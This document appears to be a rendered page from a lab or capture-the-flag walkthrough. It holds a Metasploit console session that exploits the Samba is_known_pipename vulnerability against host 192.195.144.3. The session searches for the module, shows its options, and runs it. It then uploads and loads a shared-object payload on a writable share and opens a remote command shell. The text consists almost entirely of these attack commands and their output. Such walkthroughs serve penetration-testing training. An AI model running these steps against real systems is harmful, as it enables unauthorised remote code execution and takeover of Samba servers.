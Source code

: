 ```
msf5 > search Samba

Matching Modules
================

   #   Name                                                 Disclosure Date  Rank       Check  Description
   -   ----                                                 ---------------  ----       -----  -----------
   9   exploit/linux/samba/is_known_pipename                2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
```

```
msf5 > use exploit/linux/samba/is_known_pipename
msf5 exploit(linux/samba/is_known_pipename) > show options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOSTS          192.195.144.3    yes       The target address range or CIDR identifier
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)


msf5 exploit(linux/samba/is_known_pipename) > run

[*] 192.195.144.3:445 - Using location \\192.195.144.3\exploitable\tmp for the path
[*] 192.195.144.3:445 - Retrieving the remote path of the share 'exploitable'
[*] 192.195.144.3:445 - Share 'exploitable' has server-side path '/
[*] 192.195.144.3:445 - Uploaded payload to \\192.195.144.3\exploitable\tmp\djwwRwAC.so
[*] 192.195.144.3:445 - Loading the payload from server-side path /tmp/djwwRwAC.so using \\PIPE\/tmp/djwwRwAC.so...
[-] 192.195.144.3:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.195.144.3:445 - Loading the payload from server-side path /tmp/djwwRwAC.so using /tmp/djwwRwAC.so...
[+] 192.195.144.3:445 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (192.195.144.2:45931 -> 192.195.144.3:445) at 2023-02-09 14:26:19 +0000
```
